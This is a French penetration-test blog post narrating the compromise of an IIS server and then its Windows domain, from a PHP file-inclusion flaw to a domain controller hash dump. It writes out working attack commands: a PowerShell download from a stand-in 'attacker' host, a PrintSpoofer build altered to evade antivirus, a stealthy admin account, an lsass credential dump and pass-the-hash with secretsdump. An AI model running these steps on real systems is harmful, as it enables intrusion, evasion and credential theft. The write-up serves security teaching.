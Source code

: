 ```yaml
---
title: "Tales of PenTest #3 : Celui qui avait son serveur web dans son domaine Windows"
tags: [pentest, Windows]
---
```


Oui, mais pourquoi ?
-------------------

Hé, bonne question ! Tout administrateur normalement constitué sait que c'est par la voie du web que les emmerdes vont arriver :p  

Tous ces script-kiddies ont leur scanner de vulnérabilité à l'écoute et au prochain exploit rendu public votre serveur web est bien placé pour apparaître dans un remake du meme nommé *Piper Perri*.  

De nos jours, il est plus commun (et sérieux) de placer le serveur web chez un hébergeur quelconque pour éviter de partager un bout d'infrastructure interne.  

L'histoire qui suit devrait convaincre tout le monde de cette recommandation :)  

La faille stupide
-----------------

Tout part d'un scan [Wapiti](https://wapiti-scanner.github.io/) qui détecte une faille d'inclusion permettant l'exécution de code en raison de la directive *allow_url_include* activée sur le serveur web.  

On peut réduire le code vulnérable à ceci :  

```php
<?php include($_GET['show'] . '.php'); ?>
```

Wapiti dispose d'un payload qui va diriger la victime vers une règle d'URL rewriting sur le endpoint `wapiti3.ovh`. Cette règle retourne un code PHP inoffensif quelque soit le suffixe de l'URL, tout juste suffisant pour vérifier que l'interprétation de code PHP a lieu.  

Il suffit de mettre en place une charge PHP (appel à la fonction `system()`) sur un serveur HTTP minimaliste et faire charger le script depuis la vulnérabilité et voilà notre exécution de commande.  

Un `whoami /all` indique que l'utilisateur faisant tourner les scripts est lié à [une Application Pool IIS](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities).  

En dehors de ça l'utilisateur fait partie de groupes classiques (`BUILTIN\Users`, `NT AUTHORITY\SERVICE`, `NT AUTHORITY\Authenticated Users`, `BUILTIN\IIS_IUSRS`) donc on devrait être assez libre dans nos mouvements.  

Wow, such privileges
--------------------

Le plus intéressant ce sont les privilèges associés à ce compte avec `SeImpersonatePrivilege` qui est actif :  

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

On note aussi la présence d'un outil de sécurité à l'aide de `tasklist /v` avec la mention du processus `sepWscSvc64.exe` (Symantec Endpoint Protection).  

Et enfin, la commande `systeminfo` révèle un système 64bits avec l'OS *Microsoft Windows Server 2016 Standard*.  

L'exécution de commandes Powershell nous est refusé :  

```console
C:\www\target> powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc -- snip encoded powershell command snip --
Access is denied.
```

C'est certainement l'effet d'une règle de sécurité basique, type [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview) puisqu'en copiant le binaire `powershell.exe` à un autre emplacement et sous un autre nom tout fonctionne.  

Nos cibles toutes trouvées seront bien évidemment les admins du domaine :  

```console
C:\www\target> net group "domain admins" /domain

The request will be processed at a domain controller for domain target

Group name Domain Admins
Comment Designated administrators of the domain

Members

------------------------------------------------------------------------------- 
administrator anna_adm jones_adm
florent_adm jack kim_adm
The command completed successfully
```

En explorant les fichiers de configuration sous la racine web, on peut trouver quelques mots de passe (base de données, API, etc) mais rien qui semble lié de prés ou de loin à l'un de ces comptes.  

On peut se pencher sur [ce petit tableau](https://github.com/gtworek/Priv2Admin) pour déterminer quels outils utiliser pour abuser de notre privilège. Dans notre cas, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) est l'outil de choix.  

Il va de soi que l'exploit sera détecté par l'antivirus, il convient a minima de le recompiler avec Visual Studio. On peut utiliser un outil comme [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) pour connaître quelle partie du binaire est concerné par les signatures de l'antivirus Windows Defender (on espère ici que Symantec utilise les mêmes signatures).  

![PrintSpoofer AV signature as detected by Defender](/assets/img/pentest03/threatcheck_vs_printspoofer.png)

Sans trop de surprises la signature concerne des chaînes de caractères correspondant au message d'aide du programme :  

![PrintSpoofer source code snippet](/assets/img/pentest03/printspoofer_source.png)

On vire tout ça, on recompile, on reteste et ça passe.  

```console
C:\www\target> gimmeashell.exe -i -c cmd

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Bien sûr, il aura fallu préalablement uploader l'exécutable sur la victime. On peut par exemple passer par Powershell :  

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://attacker/gimmeashell.exe', 'gimmeashell.exe')
```

Ou alors on peut écrire un script d'upload en PHP sur le site via la commande `echo`. On passera par l'étape du base64 pour ne pas se casser la tête à échapper les caractères problématiques.  

```bash
echo mon_code_php_encodé_base64 > upload.64
certutil -decode upload.64 upload.php
```

Depuis notre shell SYSTEM on ajoute un compte administrateur local (on prendra soin de choisir un nom discret ou de réactiver un compte existant inactif) :  

```
net user besthacker 31337 /ADD
net localgroup Administrators besthacker /ADD
```

Exploitation précoce
--------------------

On se rencarde sur le domaine avec deux commandes WMIC :  

```console
C:\Windows\system32> wmic computersystem get domain
Domain
target.tld

C:\Windows\system32> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE

DomainControllerAddress=
DomainName=
Roles=

DomainControllerAddress=\\10.10.10.1
DomainName=NT
Roles=
```

Après un [reverse SSH](https://github.com/Fahrj/reverse-ssh) mis en place sur le serveur web je peux forwarder le port RDP du serveur chez moi puis m'y connecter avec `xfreerdp` :  

```console
ssh -N -L 3389:127.0.0.1:3389 -p 8888 127.0.0.1
xfreerdp /u:besthacker /p:31337 /v:127.0.0.1:3389  /rfx /gfx:avc444 /network:auto
```

Une fois connecté en administrateur, il est possible de rendre l'antivirus silencieux ou d'ajouter une exclusion où placer des exécutables ayant une mauvaise réputation.  

Ici on profitera seulement du gestionnaire de taches pour dumper la mémoire de `lsass.exe` comme dans [ce précédent article]({% link _posts/2022-03-21-Tales-of-PenTest-2-Celui-qui-utilisait-encore-ColdFusion.md %}).  

Depuis Linux [Pypykatz](https://github.com/skelsec/pypykatz) peut généralement se substituer à `Mimikatz` pour extraire les hashs depuis le dump téléchargé :  

```bash
pypykatz lsa minidump lsass.DMP  > dump.txt
```

Dans le dump obtenu on trouve le mot de passe de l'administrateur local (en clair) mais aussi le hash NT de l'un des admins du domaine, `kim_adm` !  

On peut stocker les plusieurs centaines de noms d'utilisateurs du domaine (`net user /domain`) dans un fichier et mettre les hashs dans un autre et voir s'il y a des mots de passes réutilisés.  

[CrackMapExec](https://mpgn.gitbook.io/crackmapexec/) fait ça très bien et indique via un petit `+` quand les identifiants sont corrects. Il rajoute aussi `Pwned` quand il s'agit d'un compte privilégié :  

```
SMB  192.168.1.47  445  NAS  [+] target.tld\kim_adm:-- snip un hash NT -- (Pwn3d!)
SMB  192.168.1.47  445  NAS  [+] target.tld\www:-- snip un hash NT --
```

Pour s'éviter de changer le port à forwarder à chaque étape, on peut utiliser l'option `-D` de ssh et créer un proxy socks local (voir [le CTF myHouse 7]({% link _posts/2022-01-01-Solution-du-CTF-myHouse7-de-VulnHub.md %}) orienté pivoting).  

On termine tout ça grâce à [Impacket](https://github.com/SecureAuthCorp/impacket) qui va nous dumper les hashs du fichier `NTDS.dit` sur le contrôleur de domaine :  

```bash
$ proxychains4 -q -f proxychains.conf python examples/secretsdump.py -dc-ip 10.10.10.1 -just-dc -hashes aad3b435b51404eeaad3b435b51404ee:--snip-hash-NT -- target.tld/kim_adm@10.10.10.1 | tee ntdis_dump.txt
```

Ainsi armé, les 300 machines présentes sur le réseau n'ont qu'à bien se tenir :D Environ 21% des comptes tombent avec une bonne wordlist et un peu de patience.  

Le trophé
---------

Au choix : capture d'écran de la caméra de surveillance Axis présente dans le bureau des IT où on peut les voir travailler, récupération d'un fichier Excel contenant des passwords sur la machine de l'administrateur et j'en passe.  

*Published March 29 2022 at 18:02*
